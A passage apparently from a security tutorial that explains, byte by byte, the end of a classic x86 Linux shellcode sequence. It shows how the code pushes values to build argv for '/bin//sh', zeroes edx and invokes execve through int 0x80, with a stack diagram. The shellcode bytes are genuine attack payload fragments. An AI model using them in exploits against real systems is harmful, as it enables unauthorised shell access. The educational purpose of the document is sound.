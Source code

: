 Now, the register store the start address of `"/bin//sh"`, which can not decide in compile time.

```c
	"\x50"                 /* pushl   %eax                   */
 	"\x53"                 /* pushl   %ebx                   */
	"\x89\xe1"             /* movl    %esp,%ecx              */
```

These lines actually form the stack like this:

```
	addr+0		0
	addr+4		//sh
	addr+8		/bin		<- %ebx = addr+8
	addr+12		0
	addr+16		addr+8		<- %esp = addr+16
```

So when we move `%esp` to `%ecx`, we actually form the value `argv[]`, where `argv[0]` contain the start address of `"/bin//sh"`, and `argv[1]` is `zero`.

```c
	"\x99"                 /* cdq                            */
```

This instruction put `zero` into `%edx`.

```
  	"\xb0\x0b"             /* movb    $0x0b,%al              */
  	"\xcd\x80"             /* int     $0x80                  */
```

`0x0b` means the No.11 entry in the system call table, which is the `execve` function. The line 2 call the system call. These two line triggers the `execve` system call.